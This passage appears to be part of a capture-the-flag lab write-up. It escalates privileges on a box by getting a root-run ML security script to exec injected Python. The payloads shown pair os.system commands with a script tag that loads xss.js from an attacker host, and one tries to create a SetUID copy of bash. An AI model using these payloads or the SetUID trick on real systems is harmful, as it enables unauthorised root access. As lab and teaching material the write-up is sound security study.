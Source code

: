 I’ll start with this:

    
    
    oxdf=exec("""import os\nos.system("touch /tmp/0xdf")""");#<script src="http://10.10.14.6/xss.js"></script>
    

Hopefully the last bit will score highly as XSS, and then get passed to
`preprocess_input_exprs_arg_string`. Then the `exec` call will import the `os`
module and call `os.system`.

I’ll submit that via the webpage:

![image-20230224110524327](https://0xdfimages.gitlab.io/img/image-20230224110524327.png)

And run the script:

    
    
    diego@forgot:~$ sudo /opt/security/ml_security.py
    2023-02-24 15:55:13.863306: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
    2023-02-24 15:55:13.863365: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.
    

`/tmp/0xdf` exists and is owned by root:

    
    
    diego@forgot:~$ ls -l /tmp/0xdf
    -rw-r--r-- 1 root root 0 Feb 24 15:54 /tmp/0xdf
    

#### Shell

I’ll modify the payload so that it creates a SetUID copy of `bash`. I’ll
initially try this, but it doesn’t work:

    
    
    oxdf=exec("""import os\nos.system("cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf")""");#<script src="http://10.10.14.6/xss.js"></script>
    

When I run the script, it errors out:

    
    
    diego@forgot:~$ sudo /opt/security/ml_security.py
    2023-02-24 16:08:19.522389: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
    2023-02-24 16:08:19.522544: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.
    Traceback (most recent call last):
      File "/opt/security/ml_security.py", line 125, in <module>
        ynew1 = loaded_model1.predict(Xnew)
      File "/usr/local/lib/python3.8/dist-packages/sklearn/tree/_classes.py", line 437, in predict
        X = self._validate_X_predict(X, check_input)
      File "/usr/local/lib/python3.8/dist-packages/sklearn/tree/_classes.py", line 402, in _validate_X_predict
        X = self._validate_data(X, dtype=DTYPE, accept_sparse="csr",
      File "/usr/local/lib/python3.8/dist-packages/sklearn/base.py", line 421, in _validate_data
        X = check_array(X, **check_params)
      File "/usr/local/lib/python3.8/dist-packages/sklearn/utils/validation.py", line 63, in inner_f
        return f(*args, **kwargs)
      File "/usr/local/lib/python3.8/dist-packages/sklearn/utils/validation.py", line 637, in check_array
        raise ValueError(
    ValueError: Expected 2D array, got 1D array instead:
    array=[].
    Reshape your data either using array.reshape(-1, 1) if your data has a single feature or array.reshape(1, -1) if it contains a single sample.